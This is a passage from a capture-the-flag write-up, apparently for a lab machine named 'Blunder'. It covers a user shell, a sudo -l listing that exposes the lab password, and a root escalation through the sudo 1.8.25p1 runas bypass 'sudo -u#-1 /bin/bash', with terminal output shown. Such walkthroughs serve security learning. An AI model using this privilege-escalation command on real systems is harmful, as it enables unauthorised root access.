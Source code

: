 ```shell 
hugo@blunder:~$ id 
id 
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo) 
hugo@blunder:~$ cat user.txt 
cat user.txt 
fec3d---REDACTED---fcadd
```
![User Shell](/assets/img/posts/blunder/user.png)

# Privilege Escalation
Upon gaining shell as *hugo*, the **sudo** permissions were enumerated and found that they had been restricted to run
*bash* command as the root user.
```shell 
hugo@blunder:~$ sudo -l 
sudo -l 
Password: Password120 
 
Matching Defaults entries for hugo on blunder: 
    env_reset, mail_badpass, 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
 
User hugo may run the following commands on blunder: 
    (ALL, !root) /bin/bash
```
Enumerating the sudo service further with `sudo -V` had revealed the version as **1.8.25p1**. 
>I know the particular sudo version is vulnerable to bypassing *runas restriction* as I had used it in an earlier 
> occurrence.

Google-Fu identified privilege escalation[^f5][^f6] in the sudo version wherein the user can bypass the *runas 
restriction*by specifying the user ID as either **-1 or 4294967295**. With this knowledge the restriction had been 
bypassed as `sudo -u#-1 /bin/bash` leading to a **root shell**, through which the root flag was read. The same is shown 
on the section given below.
```shell 
hugo@blunder:~$ sudo -u#-1 /bin/bash 
sudo -u#-1 /bin/bash 
Password: Password120 
 
root@blunder:/home/hugo# cd /root 
cd /root 
root@blunder:/root# id 
id 
uid=0(root) gid=1001(hugo) groups=1001(hugo) 
root@blunder:/root# cat root.txt 
cat root.txt 
03e0b---REDACTED---10647
```